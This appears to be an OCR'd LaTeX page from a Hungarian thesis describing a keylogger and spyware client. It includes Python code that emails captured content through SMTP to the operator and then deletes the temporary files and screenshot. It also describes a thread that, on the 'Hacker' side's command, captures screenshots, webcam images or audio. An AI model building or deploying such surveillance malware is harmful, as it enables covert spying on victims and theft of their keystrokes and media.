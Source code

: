 \documentclass[12pt,a4paper,oneside]{report}
\begin{document}
\begin{lstlisting}{language=Python}
with smtplib.SMTP(self.smtp_alias, self.smtp_port) as smtp_server:
	smtp_server.starttls()
	smtp_server.login(self.email_address, self.email_password)
	smtp_server.sendmail(self.email_address, self.email_address, content)

if os.path.isfile(os.path.join(temp_path, filename)):
	os.remove(os.path.join(temp_path, filename))
if os.path.isfile(os.path.join(temp_path, "screenshot.png")):
	os.remove(os.path.join(temp_path, "screenshot.png"))
\end{lstlisting}

\subsection{MenuHandlerTarget osztály}\label{subsubsec:menuhandlerclinet}
A $MenuHandlerTarget$ osztály foglalkozik az opciók fogadásával, és az opciók által elvégzett feladatokkal. Ez az osztály egy külön szálon kell, hogy fusson, máskülönben blokkolná a fő szálat, ahol a billentyűzetet hallgató osztály fut, lasd \pageref{subsubsec:keyloggerclientclass}. oldal \ref{subsubsec:keyloggerclientclass}, ezért a $Thread$ osztályból származtatjuk.
A Hacker oldaltól kapott opciók döntik el, hogy milyen adatot épít fel, és küld el a program:
\begin{itemize}
\item 1 - képernyőkép
\item 2 - webkamerakép
\item 3 - hangrögzítés
\item 4 - felbontja a kapcsolatot
\end{itemize}
\end{document}
